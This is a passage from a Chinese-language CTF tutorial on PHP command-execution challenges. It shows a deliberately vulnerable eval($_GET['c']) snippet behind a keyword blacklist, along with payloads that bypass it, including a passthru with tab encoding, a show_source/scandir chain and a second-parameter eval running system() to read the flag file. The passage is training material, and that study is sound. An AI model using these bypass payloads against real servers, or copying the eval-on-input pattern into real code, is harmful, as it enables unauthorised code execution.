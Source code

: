```Plain
?c=passthru("tac fl*");
```

#### 第三题

```PHP
if(isset($_GET['c'])){
    $c = $_GET['c'];
    if(!preg_match("/flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
        eval($c);
    }
```

又是多ban了几个东西

```Python
#常规操作
?c=passthru("tac%09fla*");
?c=show_source(next(array_reverse(scandir(pos(localeconv())))));
?c=eval($_GET[a]);&a=system('tac flag.php');#这里只是过滤了c参数里面的内容，利用这个东西可以实现绕过
```

> 简单的解释一下这个`show_source(next(array_reverse(scandir(pos(localeconv())))));`

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=YTAzNDE0YmZiOTU3MGE0YzZmZjhiZDU2ZmZiODA0ZjBfem5vVmViNE5LWmNKWU1kTkFGZ3FyVHdkbjFvMWZDVEVfVG9rZW46VWN5SGI2eENhb1VzQ294SThRU2NsaFJibkZjXzE3MzYzMzE4NDk6MTczNjMzNTQ0OV9WNA)

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=NDU5MzYzNWI2Y2FjN2NiMWRlMWU2OGRiYjc2NDUzN2NfWGV2V0VOOVBSVmJBeXk4SHBPSWU1OUJtZ1c3cmYyWDVfVG9rZW46QXdwUGJmZEpMb2NyTjF4NWZPQWNPQ3VTbkpiXzE3MzYzMzE4NDk6MTczNjMzNTQ0OV9WNA)

`localeconv()` 返回当前地区设置的一个关联数组。

`pos(localeconv())` 获取该数组中的第一个元素。

将该元素作为目录路径，调用 `scandir()` 获取该目录中的文件列表。

反转文件列表（`array_reverse()`）。

返回反转后的文件列表中的下一个元素（`next()`）。

最后，调用 `show_source()` 尝试显示该文件的内容。

## 一些资料

> 更多的面对自己的困惑利用搜索引擎去搜索和查询，同时可以借助大模型提高我们的效率

- Linux命令手册

https://www.freecodecamp.org/chinese/news/the-linux-commands-handbook/

- PHP官方文档

https://www.php.net/manual/zh/index.php

- CTFSHWOW-命令执行题解

https://exp10it.io/2022/08/ctfshow-web%E5%85%A5%E9%97%A8%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C-web29-55-writeup/